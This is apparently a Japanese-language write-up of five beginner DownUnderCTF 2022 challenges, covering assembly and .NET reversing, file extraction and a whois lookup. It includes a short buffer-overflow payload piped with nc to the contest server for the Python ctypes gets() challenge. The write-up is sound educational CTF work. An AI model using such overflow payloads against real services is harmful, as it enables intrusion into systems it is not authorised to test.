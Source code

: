 # DownUnderCTF 2022

https://play.duc.tf/

- [DownUnderCTF 2022](#downunderctf-2022)
  - [rev:source provided](#revsource-provided)
    - [solution](#solution)
    - [flag](#flag)
  - [rev: Legit App Not Ransomware](#rev-legit-app-not-ransomware)
    - [solutions](#solutions)
    - [flag](#flag-1)
  - [pwn:babyp(y)wn](#pwnbabypywn)
    - [solution](#solution-1)
    - [flag](#flag-2)
  - [DFIR: doxme](#dfir-doxme)
    - [solution](#solution-2)
    - [flag](#flag-3)
  - [DFIR: Shop-Knock Knock Knock](#dfir-shop-knock-knock-knock)
    - [solution](#solution-3)
    - [flag](#flag-4)

## rev:source provided

beginner, In this reversing challenge, source is provided.

Author: joseph#8210

### solution

配布されたchall.Sとバイナリから、pythonでフラグを復元しました。

![](./images/source.png)

```S
SECTION .data
c db 0xc4, 0xda, 0xc5, 0xdb, 0xce, 0x80, 0xf8, 0x3e, 0x82, 0xe8, 0xf7, 0x82, 0xef, 0xc0, 0xf3, 0x86, 0x89, 0xf0, 0xc7, 0xf9, 0xf7, 0x92, 0xca, 0x8c, 0xfb, 0xfc, 0xff, 0x89, 0xff, 0x93, 0xd1, 0xd7, 0x84, 0x80, 0x87, 0x9a, 0x9b, 0xd8, 0x97, 0x89, 0x94, 0xa6, 0x89, 0x9d, 0xdd, 0x94, 0x9a, 0xa7, 0xf3, 0xb2

SECTION .text

global main

main:
    xor rax, rax
    xor rdi, rdi
    mov rdx, 0x32
    sub rsp, 0x32
    mov rsp, rsi
    syscall

    mov r10, 0
l:
    movzx r11, byte [rsp + r10]
    movzx r12, byte [c + r10]
    add r11, r10
    add r11, 0x42
    xor r11, 0x42
    and r11, 0xff
    cmp r11, r12
    jne b

    add r10, 1
    cmp r10, 0x32
    jne l

    mov rax, 0x3c
    mov rdi, 0
    syscall

b:
    mov rax, 0x3c
    mov rdi, 1
    syscall
```

solver

```python
data = [0xc4, 0xda, 0xc5, 0xdb, 0xce, 0x80, 0xf8, 0x3e, 0x82, 0xe8, 0xf7, 0x82, 0xef, 0xc0, 0xf3, 0x86, 0x89, 0xf0, 0xc7, 0xf9, 0xf7, 0x92, 0xca, 0x8c, 0xfb, 0xfc, 0xff, 0x89, 0xff, 0x93, 0xd1, 0xd7, 0x84, 0x80, 0x87, 0x9a, 0x9b, 0xd8, 0x97, 0x89, 0x94, 0xa6, 0x89, 0x9d, 0xdd, 0x94, 0x9a, 0xa7, 0xf3, 0xb2]
flag = ""
count = 0
for d in data:
  for i in range(0x7f):
    a = (i + count) + 0x42
    b = a ^ 0x42
    c = b & 0xff
    if c == d:
      flag += chr(i)
      count += 1
      break
print(flag)
```

### flag

```
DUCTF{r3v_is_3asy_1f_y0u_can_r34d_ass3mbly_r1ght?}
```

## rev: Legit App Not Ransomware

easy, We've been sent this file... it looks so tempting. It says it's not ransomware... so it should be safe right?

NOTE: Don't panic if you do run it, it doesn't do anything!

Author: NoSurf#3704

### solutions

ILSpyでexeファイルをデコンパイルすると、Main関数にて入力値を比較する処理がありました。`VGhhdCdzIGl0ISBUaGF0J3MgdGhlIGZsYWch`はbase64でデコードしたら`That's it! That's the flag!`だったので、変数`d,u,c,t,f`をくっ付ければよいと判断しました。

```cs
if (Operators.CompareString(EncodeMe(Console.ReadLine()), DecodeMe(string.Concat(new string[6] { d, u, c, t, f, "=" })), false) == 0)
	{
		Console.WriteLine(DecodeMe("VGhhdCdzIGl0ISBUaGF0J3MgdGhlIGZsYWch"));
	}
	else
	{
		Console.WriteLine(DecodeMe("V3JvbmcgcGFzc3dvcmQsIGxvb2tzIGxpa2UgeW91ciBmaWxlcyBhcmUgVE9BU1Q="));
	}
```

`Program` -> `Program()`から、変数の初期値が見れました。

```
// LegitAppNotRansomware.Program
private static string d = "UkZWRFZF";
private static string u = "WjdaREZrWDNrd2RW";
private static string c = "OXdZV";
private static string t = "zR4WTE4d2NsOWpNREJzWDJG";
private static string f = "elgyTjFZM1Z0WWpOeWZRPT0";
```

目的の変数のみ抽出し、base64でデコードをするとフラグが出てきました。

`UkZWRFZFWjdaREZrWDNrd2RWOXdZVzR4WTE4d2NsOWpNREJzWDJGelgyTjFZM1Z0WWpOeWZRPT0` -> `DUCTF{d1d_y0u_pan1c_0r_c00l_as_cucumb3r}`

### flag

```
DUCTF{d1d_y0u_pan1c_0r_c00l_as_cucumb3r}
```


## pwn:babyp(y)wn

beginner, Python is memory safe, right?

Author: joseph#8210

### solution

配布されたpython scriptから`buf2`の先頭を`DUCTF`にすれば良いと判断しました。

```python
#!/usr/bin/env python3

from ctypes import CDLL, c_buffer
libc = CDLL('/lib/x86_64-linux-gnu/libc.so.6')
buf1 = c_buffer(512)
buf2 = c_buffer(512)
libc.gets(buf1)
if b'DUCTF' in bytes(buf2):
    print(open('./flag.txt', 'r').read())
```

solver

```bash
python3 -c "print('A'*512 + 'DUCTF')" | nc 2022.ductf.dev 30021
DUCTF{C_is_n0t_s0_f0r31gn_f0r_incr3d1bl3_pwn3rs}
```

### flag

```
DUCTF{C_is_n0t_s0_f0r31gn_f0r_incr3d1bl3_pwn3rs}
```

## DFIR: doxme

beginner, Office is my safe word...

Author: donfran#1306

### solution

`binwalk -e ./doxme`により、`./media`にフラグがありました。

### flag

```
DUCTF{WOrd_D0Cs_Ar3_R34L1Y_W3ird}
```



## DFIR: Shop-Knock Knock Knock

easy, Looks like there's been a bruteforce/password spray attempt against the website!

What's the contact email for the ISP of the attacker's IP?

Flag format: Email address, case insensitive

Author: Cake#4096

### solution

`"url": "shop.downunderctf.com/login"`のログが怪しかったため、そのときのorigin(`58.164.62.91`)をwhoisしました。

### flag

```
abuse@telstra.net
```
